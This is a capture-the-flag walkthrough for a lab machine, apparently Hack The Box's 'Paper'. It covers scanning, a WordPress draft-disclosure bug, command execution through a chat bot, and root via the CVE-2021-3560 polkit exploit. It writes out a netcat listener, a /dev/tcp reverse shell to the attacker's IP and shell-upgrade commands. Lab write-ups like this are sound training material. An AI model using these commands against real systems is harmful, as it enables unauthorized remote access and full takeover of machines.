






## Exploit - 10.129.167.66

The initial nmap scan finds port 80 open:  
`nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- 10.129.167.66`

Visiting the page at http://10.129.167.66/ shows a default webpage:


Viewing the request in Burp gives more information. The "X-Backend-Server" header in the HTTP response reveals the hostname: 


Add the hostname to the hosts file `/etc/hosts`
```
127.0.0.1       localhost
127.0.1.1       kali
10.129.167.66   office.paper
```
Navigate to `http://office.paper`


Wappalyzer finds Wordpress 5.2.3 is running. Searchsploit has an entry for this version.  
`searchsploit -m multiple/webapps/47690.md`

Navigate to `http://office.paper/?static=1` to view secret content.

The drafts point to the URL `http://chat.office.paper/register/8qozr226AhkCHZdyY`.  

Add the chat subdomain to the hosts file `/etc/hosts`
```
127.0.0.1       localhost
127.0.1.1       kali
10.129.167.66   office.paper chat.office.paper
```
Register a new account. Open a direct chat message with 'recyclops'.

Use the bot find undocumented functions:  
`list ../hubot/scripts/`  


"run.js" describes a run command:  
`file ../hubot/scripts/run.js`

Setup listener:  
`sudo nc -lvnp 443`

Send reverse shell:  
`run /bin/sh -i >& /dev/tcp/10.10.16.8/443 0>&1`

Upgrade shell:  
`python3 -c import pty;pty.spawn("/bin/bash")'`
`CNTL + Z`
`stty raw -echo;fg`

## Escalation - 10.129.167.66

Vulnerable to CVE-2021-3560-Polkit-Privilege-Esclation as descibed [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

Download script at https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation to box and run.  

`./priv.sh -u=doubt -p=pass`  
`su doubt`  
`sudo bash`  



## Proof - 10.129.167.66 

### User


### Root
